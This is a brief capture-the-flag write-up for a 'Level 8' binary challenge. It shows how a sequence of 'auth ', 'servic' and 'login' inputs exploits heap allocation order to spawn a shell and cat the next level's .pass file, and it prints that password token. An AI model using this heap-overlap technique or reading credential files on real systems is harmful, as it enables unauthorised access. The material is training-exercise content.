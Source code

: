 # Level 8
```bash
su level8 #5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```

## Progress
We see that the binary analyses commands received in the `gets()`. Compared strings in the code are: `login`, `auth `, `service`, `reset`.

If we do `auth `, it will copy the str in a new memory and set the next  bytes to `0`. 

To get the call to `cat /home/uesr/level9/.pass`, we want to set the buffer `auth` + `0x20` to something different than 0. For than we can use the command `service` which will do another malloc with its `strdup`.

So we do:
`auth `
`servic`
`servic`
`login`

```bash
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
